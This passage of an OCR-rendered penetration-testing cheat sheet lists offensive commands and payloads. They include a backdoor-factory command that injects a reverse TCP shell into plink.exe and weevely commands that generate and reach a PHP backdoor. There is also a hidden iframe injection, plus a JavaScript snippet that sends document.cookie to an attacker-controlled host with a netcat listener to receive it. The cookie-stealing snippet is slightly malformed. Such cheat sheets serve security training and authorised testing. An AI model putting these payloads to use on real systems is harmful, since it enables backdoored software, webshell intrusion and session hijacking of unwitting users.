 - Setting up the Client Side Exploit

- Swapping Out the Shellcode

- Injecting a Backdoor Shell into Plink.exe  
      backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip
      -P 4444 -s reverse_shell_tcp

### Web Attacks

- Web Shag Web Application Vulnerability Assessment Platform  
      webshag-gui

- Web Shells  
      [*http://tools.kali.org/maintaining-access/webshells*](http://tools.kali.org/maintaining-access/webshells)  
      `ls -l /usr/share/webshells/`

- Generate a PHP backdoor (generate) protected with the given
      password (s3cr3t)  
      weevely generate s3cr3t  
      weevely <http://$ip/weevely.php> s3cr3t

- Java Signed Applet Attack

- HTTP / HTTPS Webserver Enumeration

  - OWASP Dirbuster

  - nikto -h $ip

- Essential Iceweasel Add-ons  
      Cookies Manager
      <https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/>  
      Tamper Data  
      <https://addons.mozilla.org/en-US/firefox/addon/tamper-data/>

- Cross Site Scripting (XSS)  
      significant impacts, such as cookie stealing and authentication
      bypass, redirecting the victim’s browser to a malicious HTML
      page, and more

- Browser Redirection and IFRAME Injection

      ```html
      <iframe SRC="http://$ip/report" height = "0" width="0"></iframe>
      ```

- Stealing Cookies and Session Information

      ```javascript
      <javascript>  
      new image().src="http://$ip/bogus.php?output="+document.cookie;  
      </script>
      ```

      nc -nlvp 80
